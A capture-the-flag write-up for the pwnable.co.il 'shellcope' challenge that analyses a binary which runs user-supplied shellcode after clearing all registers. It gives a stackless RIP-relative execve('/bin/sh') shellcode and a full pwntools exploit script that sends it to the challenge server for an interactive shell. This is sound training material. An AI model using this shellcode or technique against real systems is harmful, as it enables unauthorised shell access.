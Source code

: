 ```yaml
---
title: "pwnable.co.il - shellcope"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "Shellcode customize challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> I just learned how to write shellcode!
> But i'm not sure where to store things if i don't have a stack... 

### Protections:
<pre>    
    Arch:       amd64-64-little
    RELRO:      <font color="#49FF6D">Full RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#49FF6D">PIE enabled</font>
    SHSTK:      <font color="#49FF6D">Enabled</font>
    IBT:        <font color="#49FF6D">Enabled</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Dump of the decompiled main function:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char *dest; // [rsp+8h] [rbp-8h]

  dest = (char *)mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
  strcpy(dest, reset_shellcodes);
  fgets(dest + 48, 4047, stdin);
  mprotect(dest, 0x1000uLL, 5);
  ((void (*)(void))dest)();
  return 0;
}
```

`reset_shellcodes` points to a sequence of opcodes stored in the `.data` section, the main function maps a 0x1000 bytes (page size - 4096 in decimal) using `mmap()`, copies the predefined opcodes from `reset_shellcodes` into that page using `strcpy()`, 
then reads up to `4047` bytes from `stdin` into the page starting at offset 48 (appending the user provided instructions). 
It then calls `mprotect()` to set the page permissions to `read + execute` and finally jumps to the mapped page to run the combined shellcodes.


[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)

This code clears all the registers, including the stack registers `RBP` and `RSP`. 
That makes implementing a `shell-spawning` shellcode harder, because we cant use the stack to hold the string `"/bin/sh"`.

One way around this is to embed the `"/bin/sh"` string inside the shellcode itself and use the `RIP` register (which isnt cleared by the XOR) as a pointer to that string.

### Non-stack based shellcode
```asm
jmp code

shell:
    .ascii "/bin/sh\\x00"     

code:         
    lea rdi, [rip+shell]     
    mov al, 0x3b             
    syscall  
```

This shellcode loads the address of `"/bin/sh"` into `RDI`, sets `AL` to `0x3b` (the execve syscall), and then makes the syscall.

## Exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './shellcope')

### config ###
host = args.HOST or 'pwnable.co.il'
port = int(args.PORT or 9001)

### defines ###
shellcode = """
jmp code

shell:
    .ascii "/bin/sh\\x00"     

code:
    lea rdi, [rip+shell]     
    mov al, 0x3b             
    syscall               
"""

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --
def main():
    ### run ###
    io = start()
    
    log.info("sending shellcode...")
    io.sendline(asm(shellcode))

    io.interactive()

if __name__ == "__main__":
    main()
```
